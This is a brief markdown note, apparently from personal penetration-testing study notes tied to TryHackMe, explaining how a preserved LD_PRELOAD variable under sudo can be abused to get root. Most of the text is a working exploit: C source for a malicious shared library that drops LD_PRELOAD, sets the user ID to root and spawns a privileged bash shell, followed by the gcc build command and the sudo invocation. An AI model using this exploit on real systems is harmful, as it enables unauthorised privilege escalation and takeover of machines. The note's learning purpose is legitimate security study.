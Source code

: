 # Exploiting `LD_PRELOAD`

If `LD_PRELOAD` is preserved by sudo, then it's possible to use a malicious dynamic library to gain root access - just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. Preserved environment variables are listed by `sudo -l`.

A simple malicious library (perhaps *the* simplest) that can exploit the `LD_PRELOAD` trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

* [TryHackMe: Complete Beginner](https://tryhackme.com/path/outline/beginner)
* [Enumerate "sudo" Access](./Enumerate%20%22sudo%22%20Access.md)
